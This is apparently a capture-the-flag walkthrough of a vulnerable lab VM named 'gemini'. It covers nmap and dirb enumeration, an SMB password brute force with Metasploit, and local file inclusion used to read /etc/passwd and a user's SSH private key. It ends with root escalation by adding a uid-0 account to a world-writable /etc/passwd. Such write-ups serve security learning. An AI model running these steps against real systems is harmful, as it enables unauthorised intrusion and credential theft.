

Scanning:
- Find the machine on the network:
crazyeights@es-base:~$ nmap -PS 192.168.56.1-255
Nmap scan report for 192.168.56.136
Host is up (0.00028s latency).
Not shown: 995 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
139/tcp open netbios-ssn
445/tcp open microsoft-ds
Get more details about running services, only important detail found is hostname gemini:
crazyeights@es-base:~$ nmap -A -p- 192.168.56.136
[SNIP]
Web:
Index Page:

The message Translated:
Website in maintenance, we are working to make it available as soon as possible ... Sorry for the inconvenience.
Perform enumeration to search for additional files and directories:
crazyeights@es-base:~$ dirb http://192.168.56.136
- Only interesting file found is robots.txt which contains 3 entries. None of these actually exist though so this is a dead end.
crazyeights@es-base:~$ curl http://192.168.56.136/robots.txt
/secret
/admin
/lol
SMB:
- Checking out smb, hoping to find additonal files or info.
- Listing available shares:
crazyeights@es-base:~$ smbclient -L //gemini -I 192.168.56.136 -N
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
IPC$ IPC IPC Service (Samba 4.9.5-Debian)
SMB1 disabled -- no workgroup available
crazyeights@es-base:~$
-
There is none, so this is also a dead end.
-
Using enum4linux to search for users, we find one Local User william:
S-1-22-1-1000 Unix User\william (Local User)
- Using the module smb_login we are able to retrieve the password for the user william, but this password does not get us any additional access/info so this is also a dead end:
msf5 auxiliary(scanner/smb/smb_login) > set SMBUser william
SMBUser => william
msf5 auxiliary(scanner/smb/smb_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE lists/rockyou-40.txt
PASS_FILE => lists/rockyou-40.txt
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 192.168.56.136
RHOSTS => 192.168.56.136
msf5 auxiliary(scanner/smb/smb_login) > set SMBDomain gemini
SMBDomain => gemini
msf5 auxiliary(scanner/smb/smb_login) > exploit
[*] 192.168.56.136:445 - 192.168.56.136:445 - Starting SMB login bruteforce
[+] 192.168.56.136:445 - 192.168.56.136:445 - Success: 'gemini\william:123456'
[!] 192.168.56.136:445 - No active DB -- Credential data will not be saved!
[*] 192.168.56.136:445 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/smb/smb_login) >
Back to Web:
- With further enumeration we find an additional folder we missed:
crazyeights@es-base:~$ dirb http://192.168.56.136 lists/dirb/directory-list-2.3-small.txt
==> DIRECTORY: http://192.168.56.136/Portal/
- In the portal folder, there is a webapp 
- Pages in the webapp are retrieved as shown below, meaning the index.php may be vulnerable to LFI (Local File Inclusion):
http://192.168.56.136/Portal/index.php?view=about-us.html
- Testing it out by trying to retrieve passwd:
crazyeights@es-base:~$ curl http://192.168.56.136/Portal/index.php?view=../../../../../etc/passwd
<html>
[SNIP]
<p>root:x:0:0:root:/root:/bin/bash
[SNIP]
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
william:x:1000:1000:william,,,:/home/william:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:106:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
</p> </body>
</html>
crazyeights@es-base:~$
- There is one local user william
- Checking william for .ssh folder:
crazyeights@es-base:~$ curl http://192.168.56.136/Portal/index.php?view=../../../../../home/william/.ssh/authorized_keys
- We can retrieve william's private key which will allow us to login as william via SSH
crazyeights@es-base:~$ curl http://192.168.56.136/Portal/index.php?view=../../../../../home/william/.ssh/id_rsa
User:
- After changing the permissions of the file containing the private key we can login as william:
crazyeights@es-base:~$ chmod 0600 id_rsa_gem
crazyeights@es-base:~$ ssh -i id_rsa_gem william@192.168.56.136
Linux gemini 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64
- Getting user flag:
william@gemini:~$ ls
Desktop Documents Downloads Music Public user.txt Videos
william@gemini:~$ cat user.txt
[SNIP]
user_flag==> srLbBhLRK7nBdZAesnxyeWaMV
Root:
Finding programs william can run as another user:
william@gemini:~$ find / -perm /4000 2>/dev/null
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/etc/passwd
- The entry /etc/passwd is interesting because it means that william can write to it
- We can use it to create a new user that has uid root.
william@gemini:~$ ls -lia /etc/passwd
138596 -rwsrwsrwx 1 root root 1456 nov 6 15:09 /etc/passwd
william@gemini:~$
Create a password for the new user (password is root):
crazyeights@es-base:~$ openssl passwd -1
Password:
Verifying - Password:
$1$vYYRevCu$6uUg5FbiK3e2vNVGiSDG61
- Add the following line (used nano):
rooter:$1$vYYRevCu$6uUg5FbiK3e2vNVGiSDG61:0:0:rooter:/root:/bin/sh
- Login as user rooter:
william@gemini:~$ su rooter
Contraseña:
# id
uid=0(root) gid=0(root) grupos=0(root)
- We now have root privileges
- Get the root flag
# cd /root
# ls
root.txt
# cat root.txt
[SNIP]
root_flag==> vD1JA8mze74XzkmzOA21R4sjZ
FIN.